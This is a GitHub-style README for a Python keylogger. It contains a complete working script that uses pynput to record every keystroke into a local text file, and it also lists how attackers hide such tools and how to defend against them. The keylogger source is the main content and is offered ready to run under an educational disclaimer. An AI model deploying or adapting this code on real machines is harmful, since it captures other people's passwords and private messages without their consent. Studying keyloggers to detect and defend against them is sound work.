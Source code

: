 # Python Keylogger

This is a simple Python script that logs keyboard activity using the `pynput` library. It records keystrokes and saves them to a local file called `keyfile.txt`.

This tool is intended solely for educational and ethical testing purposes — such as learning how keyloggers function, how they can be detected, and how to defend against them.

---

## Disclaimer

**This project is for educational use only.**  
Do not run this script on any system without explicit written permission from the owner. Unauthorized use may violate local, state, or federal laws.

---

## How It Works

- Listens for keyboard input using `pynput.keyboard`
- Logs printable characters to `keyfile.txt`
- Records special keys like `Enter`, `Tab`, `Shift` as `[Key.enter]`, `[Key.shift]`, etc.
- Stops listening when the Escape key is pressed

### Code Overview

```python
from pynput import keyboard 

def key_pressed(key):
    print(str(key))
    with open("keyfile.txt", 'a') as logkey:
        try:
            logkey.write(key.char)
        except AttributeError:
            logkey.write(f'[{key}]')

def on_release(key):
    # Stop listener if Esc is pressed
    if key == keyboard.Key.esc:
        return False

if __name__ == "__main__":
    with keyboard.Listener(on_press=key_pressed, on_release=on_release) as listener:
        listener.join()

```
## Why Keyloggers Are Dangerous
Keyloggers are often hidden and run silently in the background. Malicious actors can:
- Embed them into system startup scripts or schedule them using tools like Task Scheduler
- Capture sensitive data, such as passwords and personal messages
- Use misleading process names to avoid detection in the Task Manager
- Exfiltrate logged data to remote servers

## How to Protect Against Keyloggers
-Use up-to-date antivirus or anti-malware software
-Regularly check running processes in Task Manager or a system monitor
-Monitor for unusual file changes or log generation
-Educate users on phishing and software hygiene
-Implement application whitelisting and least-privilege policies
